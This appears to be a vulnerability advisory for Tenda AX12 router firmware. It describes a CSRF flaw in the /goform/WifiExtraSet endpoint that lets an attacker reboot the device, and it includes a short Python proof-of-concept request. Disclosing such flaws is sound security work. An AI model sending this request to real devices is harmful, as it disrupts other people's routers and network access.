 Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/WifiExtraSet` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

The vulnerability exists in the sub_422168 function.

![1](2.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC

```python
import requests

url = "http://192.168.158.149/goform/WifiExtraSet"

r = requests.post(url)
#r = requests.get(url) also can do
print(r.content)
```

